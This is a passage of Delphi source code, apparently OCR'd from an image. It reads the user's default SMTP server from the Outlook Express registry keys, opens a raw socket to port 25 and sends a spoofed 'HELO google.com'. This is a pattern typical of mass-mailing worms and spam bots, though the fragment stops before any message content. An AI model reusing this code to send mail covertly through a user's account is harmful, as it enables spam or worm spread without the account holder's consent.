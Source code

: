     function _HostToIP(Name: string):string;
    var  
     wsdata : TWSAData;
      hostName : array [0..255] of char;   
     hostEnt : PHostEnt;   
     addr : PChar;   
    begin  
     WSAStartup ($0101, wsdata);   
     gethostname (hostName, sizeof (hostName));   
     StrPCopy(hostName, Name);   
     hostEnt := gethostbyname (hostName);   
     if Assigned (hostEnt) then   
       if Assigned (hostEnt^.h_addr_list) then   
         begin   
         addr := hostEnt^.h_addr_list^;   
     if Assigned (addr) then   
     begin   
     Result := Format ('%d.%d.%d.%d', [byte (addr [0]),   
     byte (addr [1]), byte (addr [2]), byte (addr [3])]);   
     end;
     end;   
       WSACleanup;   
    end;
     
    function GetSMTPServer:string;
    var s,j:string;
    begin
    result := '';
    _regreadstring(hkey_current_user,'Default Mail Account',s,
              'Software\Microsoft\Internet Account Manager');
    if s = '' then exit;
    _regreadstring(hkey_current_user,'SMTP Server',j,
              'Software\Microsoft\Internet Account Manager\Accounts\' + s);
    result := j;
    end;
     
    procedure SendStr(Sock:cardinal;str: String);
    var
      I: Integer;
    begin
      for I:=1 to Length(str) do
      if send(sock,str[I],1,0)=SOCKET_ERROR then exit;
    end;
     
    procedure ConnectAndSend(from,_to,st:string);
    var
      wsadata:  TWSADATA;
      sin: TSockAddrIn;
      sock: TSocket;
      MySmtp : String;
      iaddr: Integer;
      buf: array[0..255] of char;
    begin
    MySmtp := _HostToIP(getsmtpserver);
    WSAStartUp(257, wsadata);
    sock:=socket(AF_INET,SOCK_STREAM,IPPROTO_IP);
    sin.sin_family := AF_INET;
    htons(25);
    sin.sin_port := htons(25);
    iaddr:=inet_addr(PChar(MySmtp));
    sin.sin_addr.S_addr:=iaddr;
    connect(sock,sin,sizeof(sin));
    recv(sock,buf,sizeof(buf),0);
    sendstr(sock,'HELO google.com'+#13#10);
    recv(sock,buf,sizeof(buf),0);